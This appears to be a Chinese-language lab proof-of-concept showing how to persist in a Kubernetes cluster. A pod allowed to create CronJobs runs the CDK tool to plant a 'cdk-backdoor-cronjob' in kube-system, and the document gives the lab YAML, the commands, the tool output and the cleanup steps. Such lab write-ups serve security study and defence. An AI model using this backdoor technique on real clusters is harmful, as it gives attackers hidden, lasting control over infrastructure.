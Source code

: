 # Kubernetes 部署后门 CronJob

## 漏洞描述

Cronjob 是 K8s 集群的一种资源，类似于 Linux 系统中的 cron 任务，可在指定的时间间隔内运行任务，创建一个或多个 Pod 副本。

在集群内获取到一定的权限，需要对当前的权限进行持久化控制时，可利用 K8s Cronjob 资源的特性，创建一个 kube-system 命名空间下的 Cronjob 资源，进行持久化控制。

参考链接：

- https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-cronjob
- https://github.com/cdk-team/CDK/blob/main/test/k8s_exploit_util/cronjob.yaml
- https://github.com/Metarget/metarget

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_backdoor_cronjob.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s-backdoor-cronjob` 的 pod：

```
kubectl get pods -n metarget
-----
NAME                   READY   STATUS    RESTARTS   AGE
k8s-backdoor-cronjob   1/1     Running   0          3m56s
```

![](images/Kubernetes%20部署后门%20CronJob/image-20250422135426486.png)

## 漏洞复现

> Kubernetes v1.21 及以上版本，`batch/v1beta1` 已被移除，可以使用 `batch/v1` 代替。

我们使用漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，将 `pkg/exploit/persistence/k8s_cronjob.go` 中的 `batch/v1beta1` 修改为 `batch/v1`，重新编译得到 `cdk_modified`，将其传入 `k8s-backdoor-cronjob` pod 中：

```
kubectl cp cdk_modified k8s-backdoor-cronjob:/ -n metarget
```

执行以下命令运行工具（该命令会每隔一分钟在 `kubs-system` 命名空间下创建一个 pod 执行指定命令）：

```
kubectl exec -n metarget -it k8s-backdoor-cronjob -- chmod +x /cdk_modified
kubectl exec -n metarget -it k8s-backdoor-cronjob -- /cdk_modified run k8s-cronjob default min ubuntu "touch /tmp/awesome_poc ; sleep 10000"
-----
2025/04/22 06:08:20 getting K8s api-server API addr.
	Find K8s api-server in ENV: https://10.96.0.1:443
2025/04/22 06:08:20 generate cronjob with 
 image:ubuntu
 cmd:touch /tmp/awesome_poc ; sleep 10000
 schedule:min
2025/04/22 06:08:20 requesting  /apis/batch/v1/namespaces/kube-system/cronjobs
2025/04/22 06:08:20 api-server response:
{"kind":"CronJob","apiVersion":"batch/v1","metadata":{"name":"cdk-backdoor-cronjob","namespace":"kube-system","uid":"45aed148-bfd3-4a2a-9593-77db015b74a4","resourceVersion":"15914","generation":1,"creationTimestamp":"2025-04-22T06:08:20Z","managedFields":[{"manager":"Go-http-client","operation":"Update","apiVersion":"batch/v1","time":"2025-04-22T06:08:20Z","fieldsType":"FieldsV1","fieldsV1":{"f:spec":{"f:concurrencyPolicy":{},"f:failedJobsHistoryLimit":{},"f:jobTemplate":{"f:spec":{"f:template":{"f:spec":{"f:containers":{"k:{\"name\":\"cdk-backdoor-cronjob-container\"}":{".":{},"f:args":{},"f:image":{},"f:imagePullPolicy":{},"f:name":{},"f:resources":{},"f:terminationMessagePath":{},"f:terminationMessagePolicy":{}}},"f:dnsPolicy":{},"f:restartPolicy":{},"f:schedulerName":{},"f:securityContext":{},"f:terminationGracePeriodSeconds":{}}}}},"f:schedule":{},"f:successfulJobsHistoryLimit":{},"f:suspend":{}}}}]},"spec":{"schedule":"* * * * *","concurrencyPolicy":"Allow","suspend":false,"jobTemplate":{"metadata":{"creationTimestamp":null},"spec":{"template":{"metadata":{"creationTimestamp":null},"spec":{"containers":[{"name":"cdk-backdoor-cronjob-container","image":"ubuntu","args":["/bin/sh","-c","touch /tmp/awesome_poc ; sleep 10000"],"resources":{},"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent"}],"restartPolicy":"OnFailure","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","securityContext":{},"schedulerName":"default-scheduler"}}}},"successfulJobsHistoryLimit":3,"failedJobsHistoryLimit":1},"status":{}}
```

![](images/Kubernetes%20部署后门%20CronJob/image-20250422141541628.png)

验证部署结果：

```
kubectl get cronjobs -n kube-system
-----
NAME                   SCHEDULE    TIMEZONE   SUSPEND   ACTIVE   LAST SCHEDULE   AGE
cdk-backdoor-cronjob   * * * * *   <none>     False     2        7s              107s
```

![](images/Kubernetes%20部署后门%20CronJob/image-20250422141257013.png)

查看通过 cronjobs 在 `kubs-system` 命名空间下的 pod：

```
kubectl get pods -n kube-system
-----
NAME                                  READY   STATUS    RESTARTS       AGE
cdk-backdoor-cronjob-29088369-f9nq5   1/1     Running   0              11m
cdk-backdoor-cronjob-29088370-nl6bg   1/1     Running   0              10m
cdk-backdoor-cronjob-29088371-gzggb   1/1     Running   0              9m22s
...
```

![](images/Kubernetes%20部署后门%20CronJob/image-20250422142314469.png)

## 环境复原

```
kubectl delete cronjob cdk-backdoor-cronjob -n kube-system
kubectl delete -f k8s_backdoor_cronjob.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_backdoor_cronjob.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_backdoor_cronjob.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-backdoor-cronjob
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-backdoor-cronjob
rules:
- apiGroups:
  - batch
  resources:
  - cronjobs
  verbs:
  - create
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-backdoor-cronjob
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-backdoor-cronjob
subjects:
- kind: ServiceAccount
  name: k8s-backdoor-cronjob
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-backdoor-cronjob
  namespace: metarget
spec:
  serviceAccountName: k8s-backdoor-cronjob
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```
